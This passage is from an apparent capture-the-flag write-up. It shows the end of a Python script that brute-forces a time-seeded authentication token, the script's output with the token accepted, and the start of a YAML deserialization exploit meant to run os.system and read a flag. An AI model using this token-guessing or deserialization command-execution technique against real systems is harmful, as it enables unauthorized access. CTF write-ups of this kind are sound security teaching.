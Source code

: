 ```python
        if "invalid token" not in r.text.lower():
            print("\n[+] token accepted!")
            exit()

        offset += 1
        time.sleep(3)  # Delay between requests due to rate limit

    print(f"[×] gave up after {MAX_TRIES} tries")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        pass
```
{% endcode %}

Run the script and we see the token will match.

{% code overflow="wrap" %}
```bash
[+] drift (server-client): +2 s
[*] try 01: seed 1752675554, token 3bf4703ace4ece6b
[*] try 02: seed 1752675558, token 763040066fa3ae03
[*] try 03: seed 1752675563, token 11d76f572d4339fa

[+] token accepted!
```
{% endcode %}

### Exploit 2: YAML Deserialization

Now we need to exploit the YAML deserialization. I wasted an embarrassing amount of time on this stage because I assumed we needed to populate the `model` variable with the result (reading flag ENV VAR), as this is what's displayed on the page. Turns out the solution was much simpler than that, we can just import `os.system` and then `cat $FLAG`.

Note that the server code requires a `firmware` element.

{% code overflow="wrap" %}
```python
firmware = Firmware(**data["firmware"])
```
{% endcode %}

We also need a version element, and we'll replace the `update` function with the code we want to execute.

{% code overflow="wrap" %}
```python
class Firmware():
    def __init__(self, version:str):
        self.version = version

    def update(self):
        pass
```
{% endcode %}
